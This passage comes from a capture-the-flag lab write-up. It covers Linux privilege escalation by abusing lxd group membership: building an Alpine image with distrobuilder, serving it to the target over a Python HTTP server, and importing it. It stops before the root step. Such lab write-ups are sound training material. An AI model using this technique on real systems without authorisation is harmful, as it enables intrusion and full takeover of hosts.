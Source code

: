 Bingo, I got the user flag from `/home/mike/user.txt`.

---

## Privilege Escalation

I started the privilege escalation process by monitoring the running processes using `ps aux` and [pspy](https://github.com/DominicBreuker/pspy) but found nothing I can use, but after running [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) I found that the user `mike` is a member of the group `lxd`.

After some googling, turns out that the group `lxd` is simply a management API that can manage LXC containers on linux machines and control multiple virtual machines at ones easily, and apparently It will perform ANY command for any member of the `lxd` group without any permissions requirements.

So I started digging deeper into this and I found a great [HackTrick article](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) which says in the first line :
> If you belong to lxd or lxc group, you can become root.

---

## Alpine

I started first by installing the distro builder, these instructions can be found on [https://github.com/lxc/distrobuilder](https://github.com/lxc/distrobuilder) and the [HackTricks article](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

```shell
sudo su
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

Next step, I uploaded the image file to the target machine with a simple python http server.

```shell
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.126.111 - - [20/Sep/2022 02:57:52] "GET /lxd.tar.xz HTTP/1.1" 200 -
10.129.126.111 - - [20/Sep/2022 02:58:24] "GET /rootfs.squashfs HTTP/1.1" 200 -
```

Now to add the image on the target machine:

```shell
mike@included:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
mike@included:~$ lxc image list
lxc image list
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
| alpine | 29fb78ee1746 | no     | Alpinelinux 3.8 x86_64 (20220920_0656) | x86_64 | 1.96MB | Sep 20, 2022 at 6:58am (UTC) |
+--------+--------------+--------+----------------------------------------+--------+--------+------------------------------+
```